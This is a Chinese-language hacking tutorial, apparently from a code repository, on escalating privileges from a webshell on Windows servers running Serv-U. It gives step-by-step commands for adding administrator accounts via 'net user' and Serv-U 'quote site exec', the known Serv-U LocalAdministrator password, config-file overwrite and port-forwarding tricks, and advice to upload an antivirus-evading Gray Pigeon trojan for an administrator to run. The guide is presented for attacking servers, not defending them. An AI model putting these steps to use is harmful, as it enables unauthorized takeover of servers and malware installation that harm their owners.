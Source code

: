 # 011
提权：

webshell 提权方法 服务器提权教程

一：首先检测一下网站的服务器是否开了 3389 
远程终端 
二：检测一下服务是否用了serv-u （还有是什么版本的） 
方法 
一：复制一个网站 用 3389 登陆器连接一下 （是否成功） 
能连接了，拿下服务器的机率，提高 30%了 
二：用ftp模式查下一个服务器的版本 
开始 -- 运行 -- cmd -- ftp (加你要登陆的网站) 
--------------------------------------------------------------------------------------- 
第一步：最简单的方法 
看有没有权限，能不能执行命令，行的话直接传个鸽子运行（成功率非常低） 
---------------------------------------------------------------------------------------- 
第二步：:寻找有执行的权限目录 
c:\winnt\system32\inetsrv\data\ 
c:\Documents and Settings\All Users\ 
c:\Program Files\serv-u\ 
C:\Program Files\Microsoft SQL Server\ 
这样的目录可以直接上传鸽子，运行 
----------------------------------------------------------------------------------- 
第三步：传个cmd和开帐号的ftp.exe上去直接加帐号 
命令就是你上传目录D:\VMware Workstation\cmd.exe "net user xiao xiao 
/add" 
----------------------------------------------------------------------------------- 
第四步：asp提权木马直接提权 
serv-u 6.3 版本 好象用asp提权木马（不成功） 
serv-u 6.2 版本 好象可以 
不过提权能不能用asp木马还要看服务器，设置的变态不 
假设直接用asp提权成功之后，还是不成功，但是可以在 
cmd之下 用这个帐号连接一下 
ftp (加你提权的网站) 
帐号：LocalAdministrator 密码：$ak#.1k;0@p">#1@$ak#.1k;0@p 
如果成功连接后就可以直接添加管理员帐号了 
命令：quote site exec (你添加的帐号) net user 123 123 /ad 
quote site exec （把帐号提升到最高权限） net localgroup administartors 
123 /add 
--------------------------------------------------------------------------------------- 
第五步：pcaanywhere 
C:\Documents and Settings\All Users\Application 
Data\Symantec\pcAnywhere\ 
这里下他的GIF文件，在本地安装pcanywhere上去 
网上很多教程 
--------------------------------------------------------------------------------------- 
第六步：serv-u覆盖提权 
本地安装个su，将你自己的ServUDaemon.ini文件用从他那下载下来的ServUDaemon.ini 
网上很多教程 
---------------------------------------------------------------------------------------- 
第七步：Serv-U转发端口 
给Latte加盐 曾经做个一个（serv-u经典提权全套教程）用到过这个方法，可以学习一下 
上传个端口转发工具 
命令：（工具名）–v –l 3333 –r 43958 127.0.0.1 
意思是将3333端口映射到43958端口上。 然后就可以在本地安装一个Serv-u，新建一个服务器， 
IP填对方IP，帐号为LocalAdministrator 
密码为$ak#.1k;0@p">#1@$ak#.1k;0@p， 
连接上后你就可以管理他的Serv-u了 
-------------------------------------------------------------------------------------------- 
第八步：社会工程学之提升提权 
把灰鸽子传到上面，然后转移到c盘，就等着管理员运行了，前提你的鸽子必须免杀 
要是让我看到一个不清楚的exe程序，老想点开看看，呵呵(估计没有那个SB会点吧)
